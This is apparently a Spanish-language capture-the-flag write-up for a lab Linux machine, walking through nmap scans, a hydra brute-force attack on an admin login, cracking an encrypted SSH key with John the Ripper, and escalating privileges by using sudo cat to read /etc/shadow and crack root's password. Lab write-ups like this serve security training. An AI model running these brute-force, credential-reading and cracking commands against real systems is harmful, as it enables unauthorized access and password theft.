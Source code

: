 # Summary
- IP: 10.10.220.132
- Ports: 22,80
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
	-  80 -> Apache httpd 2.4.29

# Recon

- Escaneo básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.220.132 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```
$sudo nmap -p21,80,2222 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de directorios web:

```
#nmap --script http-enum -p80 10.10.220.132 -oN webSCan
```

- Encontramos el directorio "/admin" lo examinamos y vemos una página de logeo, analizando el código fuente encontramos el usuario "admin", hacemos ataque de fuerza bruta al login usando el usuario encontrado:

```
#hydra -l admin -P /home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.220.132 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

- Encontramos la contraseña para el usuario "admin" accedemos y vemos un mensaje que nos redirige a un "id_rsa" el cual contiene la clave privada SSH encriptada del usuario "john", la crackeamos con john:

```
#nano id_rsa

#chmod 600 id_rsa

#/usr/share/john/ssh2john.py id_rsa > id_rsa.txt

#john -w:/home/dante/SecLists/Passwords/Leaked-Databases/rockyou.txt id_rsa.txt
```

- Ecnontramos la contraseña para el usuario "john", accedemos via SSH usando el archivo rsa:

```
#ssh -i id_rsa jhon@10.10.220.132
```

- Encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Buscamos binarios con permisos de ejecutar como root sin contraseña:

```
$sudo -l
```

- Encontramos el binario "cat", aprovechamos para leer el archivo "/etc/shadow":

```
$sudo cat /etc/shadow
```

- Copiar en un archivo el contenido del archivo shadows e intentar crackear contraseñas de usuarios con john:

```
nano shadow

john shadow
```


- Encontramos la contraseña de root, accedemos y encontramos la última flag.